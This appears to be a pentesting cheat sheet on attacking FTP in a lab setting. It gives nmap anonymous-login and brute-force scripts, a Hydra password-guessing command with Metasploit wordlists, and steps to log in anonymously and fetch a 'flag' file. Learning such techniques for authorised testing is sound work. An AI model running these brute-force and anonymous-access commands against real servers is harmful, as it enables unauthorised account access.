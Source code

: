 ```yaml
---
description: Cheatsheets for FTP
---
```


# 21 - Pentesting FTP

Nmap Script

```bash
#Check whether anonymous login is allowed on the ftp server using nmap script.
nmap --script ftp-anon 192.159.18.3
#Find the password of user "sysadmin" using nmap script.
echo "sysadmin" > users
nmap --script ftp-brute --script-args userdb=/root/users -p 21 192.235.127.3
```

Hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.235.127.3 -t 4 ftp
```

Navigate Inside FTP Server

```bash
ftp 192.159.18.3
Enter username "anonymous" and empty password
ls
get flag
exit
cat flag
```
